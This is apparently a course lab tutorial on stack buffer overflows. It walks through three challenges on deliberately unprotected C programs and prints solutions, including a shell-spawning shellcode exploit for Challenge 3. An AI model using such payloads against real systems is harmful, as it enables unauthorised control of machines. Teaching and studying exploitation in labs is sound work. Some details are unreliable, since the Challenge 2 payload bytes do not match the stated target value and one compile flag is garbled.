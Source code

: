 # Week 2 - Malware and Buffer Overflow
In this tutorial you'll work on exploiting a buffer overflow vulnerability. This attack can crash a legitimate process, give the attacker access to confidential data or even give the attacker a full control over a machine (see Challange3). 

## Setup
Connect to the Ubuntu server and start the tutorial image by invoking `sudo /usr/local/bin/start_lab.sh 2`

Disable ALSR on your machine using `echo 0 | tee /proc/sys/kernel/randomize_va_space`.

## Challenge 1
Your goal here is to modify a variable in the code even though the code doesn't contain any logic writing to this variable. To do that

* Analyze the code in `challenge1.c`

* Compile `challenge1.c` using `gcc challenge1.c -o challenge1 -m32 -fno-stack-protector -z execstack -g`

* Run the file with an input that will change the value of `do_not_modify` to something other than 0.

* Add a `printf` statements to your code that will print the pointer values for buffer and modified variables.

* Run the program several times and observe the pointer values.

* Recompile the program without the `-fno-stack-protector`. What changed? Is your attack still possible?

* Enable ALSR on your machine and run the program again (modify the command from the beginning of this task). What changed? How ALSR protects against buffer overflow attacks? 

Solution:
```
./challenge1 aaaaaaaaa
```

## Challenge 2

* Disable ALSR on your machine using `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

* Compile `challenge2.c` using `gcc challenge2.c -o challenge2 -m32 -fno-stack-protector -z exe<cstack -g`

* Run the file with an input that will change the value of modified to `0x0d0a0d0a`. 

Solution:
```
$./challenge2 `python2 -c 'print "A"*64 + "\x0b\x0d\x0b\x0d"'`
```

## Challenge 3
Your goal is to place a shell code in the buffer of an application and get access to the host machine (similarely to what we did during the lecture).
* Analyze the code of `challenge3.c`. 
* Compile it using: `gcc challenge3.c -o challenge3 -m32 -fno-stack-protector -z execstack -g`
* Make the application execute the shell code below:

```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d
\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Solution:
```
/challenge3 `python2 -c 'print "\x90"*359 + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76
\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8
\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x30\xd4\xff\xff"'`
```
